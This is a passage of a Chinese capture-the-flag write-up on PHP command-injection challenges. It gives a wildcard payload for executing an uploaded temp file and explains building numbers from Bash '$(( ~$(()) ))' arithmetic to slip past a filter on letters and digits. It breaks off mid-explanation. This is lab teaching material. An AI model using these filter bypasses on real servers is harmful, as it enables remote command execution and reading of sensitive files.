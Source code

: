 ```php+HTML
```

bp抓包以后构造payload：

?c=.+/???/????????[@-[]

（@-[是linux系统的匹配符，可以匹配大写字母）

之后只需要写入ls，cat /var/www/html/flag.php命令即可得到flag

 参考文章：

https://blog.csdn.net/qq_46091464/article/details/108513145

[无字母数字webshell之提高篇 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

### Web57：

```php
// 还能炫的动吗？

//flag in 36.php

if(isset($_GET['c'])){ 

  $c=$_GET['c']; 

  if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){ 

​    system("cat ".$c.".php"); 

  }

}else{ 

  highlight_file(__FILE__); 

} 
```

过滤了字母，数字，<>，%······,但没有过滤()，$和~

bing一下：

双小括号 (( )) 是 Bash Shell 中专门用来进行整数运算的命令，它的效率很高，写法灵活，是企业运维中常用的运算命令。 通俗地讲，就是将数学运算表达式放在((和))之间。 表达式可以只有一个，也可以有多个，多个表达式之间以逗号,分隔。对于多个表达式的情况，以最后一个表达式的值作为整个 (( ))命令的执行结果。 可以使用$获取 (( )) 命令的结果，这和使用$获得变量值是类似的。 可以在 (( )) 前面加上$符号获取 (( )) 命令的执行结果，也即获取整个表达式的值。以 c=$((a+b)) 为例，即将 a+b 这个表达式的运算结果赋值给变量 c。 注意，类似 c=((a+b)) 这样的写法是错误的，不加$就不能取得表达式的结果。

$(()) ：代表做一次运算，因为里面为空，也表示值为0

$(( ~$(()) )) ：对0作取反运算，值为-1

$(( $((~$(()))) $((~$(()))) ))： -1-1，也就是(-1)+(-1)为-2，所以值为-2
